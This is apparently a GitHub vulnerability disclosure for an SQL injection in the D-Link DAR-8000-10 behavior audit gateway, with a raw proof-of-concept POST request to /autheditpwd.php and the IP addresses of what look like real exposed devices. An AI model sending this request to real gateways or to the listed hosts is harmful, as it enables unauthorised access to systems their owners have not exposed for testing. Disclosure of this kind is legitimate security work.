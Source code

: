 
The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has an SQL injection vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.


official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/autheditpwd.php
https://59.60.19.174:8443/
<img width="723" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/7a5d33a9-90c1-4688-9877-7fa9bf658ef8">
poc：
```
POST /autheditpwd.php? HTTP/1.1
Host: 58.18.133.60:8443
Cookie: PHPSESSID=8ad3e9e30c1d494aba55072f78549c04
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://58.18.133.60:8443
Referer: https://58.18.133.60:8443/autheditpwd.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

oldpwd=1&pwd=1&confirmpwd=1&mode=edit&hid_id=

```
<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/2aabdb7a-9880-42f0-8bc2-42e7d8cfcf50">

